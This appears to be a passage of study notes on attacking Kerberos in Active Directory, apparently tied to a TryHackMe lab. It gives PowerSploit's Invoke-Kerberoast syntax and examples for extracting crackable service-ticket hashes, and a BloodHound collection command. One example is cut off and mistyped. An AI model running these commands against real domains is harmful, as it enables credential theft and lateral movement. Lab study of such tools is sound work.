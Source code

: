 # 2. Powersploit
## [SYNTAX](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)

```
Invoke-Kerberoast [[-Identity] <String[]>] [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>]
 [-Server <String>] [-SearchScope <String>] [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-Tombstone]
 [-OutputFormat <String>] [-Credential <PSCredential>]
```

## DESCRIPTION

Uses Get-DomainUser to query for user accounts with non-null service principle names (SPNs) and uses Get-SPNTicket to request/extract the crackable ticket information. The ticket format can be specified with -OutputFormat \<John/Hashcat>.

## EXAMPLES

### -------------------------- EXAMPLE 1 --------------------------

```
Invoke-Kerberoast | fl
```

### -------------------------- EXAMPLE 2 --------------------------

```
Invoke-Kerberoast -Domain dev.testlab.local | fl
```

### -------------------------- EXAMPLE 3 --------------------------

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -orce
```


# 3.  Bloodhound or sharp hound
https://tryhackme.com/room/attackingkerberos

```powershell
Invoke-BloodHound -CollectionMethod All
```

# 4.  Impacket
